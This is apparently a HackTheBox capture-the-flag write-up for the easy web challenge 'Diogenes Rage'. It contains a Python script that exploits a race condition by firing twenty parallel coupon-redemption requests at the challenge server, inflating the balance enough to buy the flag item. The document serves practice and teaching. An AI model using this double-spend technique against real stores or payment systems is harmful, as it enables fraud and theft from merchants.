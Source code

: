 ## **HTB** 
### **Difficult:** easy
### **Type:** Race condition
___
### **Description:**
Having missed the flight as you walk down the street, a wild vending machine appears in your way. You check your pocket and there it is, yet another half torn voucher coupon to feed to the consumerism. You start wondering why should you buy things that you don't like with the money you don't have for the people you don't like. You're Jack's raging bile duct.

Author: Rayhan0x01
___

### **Vulnerable code:** ###
![1.png](https://github.com/L4P1Nz/HackTheBox/blob/main/Challenges/Web/Diogenes%20Rage/Media/1.png)
### **Exploit:** ###
```python
import requests
from multiprocessing import Process

url = "http://167.172.55.94:31451"
purchase_endpoint = "/api/purchase"
coupon_endpoint = "/api/coupons/apply"

purchase_A1 = {"item": "A1"}
purchase_C8 = {"item": "C8"}
coupon_data = {"coupon_code": "HTB_100"}

def request_coupon(cookie):
    requests.post(url=url+coupon_endpoint, data=coupon_data, cookies=cookie)


while (1):
    response = requests.post(url=url+purchase_endpoint, data=purchase_A1)
    cookie = {
        "session": response.cookies['session']
    }
    processes = []
    for i in range(20):
        new_process = Process(target=request_coupon, args=(cookie, ))
        processes.append(new_process)
    
    for process in processes:
        process.start()
    for process in processes:
        process.join()
    
    response = requests.post(url=url+purchase_endpoint, data=purchase_A1, cookies=cookie)
    print("Show balance: ", response.text)

    response = requests.post(url=url+purchase_endpoint, data=purchase_C8, cookies=cookie)
    print("Flag? :", response.text)
```
